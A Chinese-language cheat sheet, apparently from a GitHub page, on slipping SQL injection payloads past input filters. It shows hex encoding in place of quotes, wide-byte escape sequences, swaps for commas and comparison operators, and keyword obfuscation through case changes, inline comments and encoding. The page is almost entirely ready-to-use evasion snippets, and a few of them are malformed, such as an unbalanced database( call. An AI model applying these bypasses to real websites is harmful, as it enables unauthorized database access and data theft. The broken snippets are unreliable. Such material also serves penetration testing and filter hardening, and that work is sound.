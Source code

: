     

#### 引号

```sql
select column_name from information_schema.tables where table_name="users"
```

如果引号被过滤了，那么上面的`where`子句就失效了，此时可以使用**十六进制**。
`users`的十六进制的字符串是`7573657273`。那么最后的sql语句就变为了：

```sql
select column_name  from information_schema.tables where table_name=0x7573657273
```

**宽字节绕过**

```
%bf%27 %df%27 %aa%27
```

#### 逗号

`substr(), mid()` 里的逗号可用 `from for` 代替

```sql
select substr(database(0 from 1 for 1);
select mid(database(0 from 1 for 1);
```

对于 `limit` 里面的逗号可以使用 `offset` 绕过

```sql
select * from news limit 0,1  
<=>
select * from news limit 1 offset 0
```

#### 比较符

大于、小于可用 `greatest(), least()` 代替，还可以 `between and`

```sql
select * from users where id=1 and ascii(substr(database(),0,1))>64
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

#### 条件连接词

```
利用符号:
and => &&
or => ||
xor => |
not => !

大小写变形: Or, OR, oR
添加注释: o/**/r
编码：hex, urlencode
```
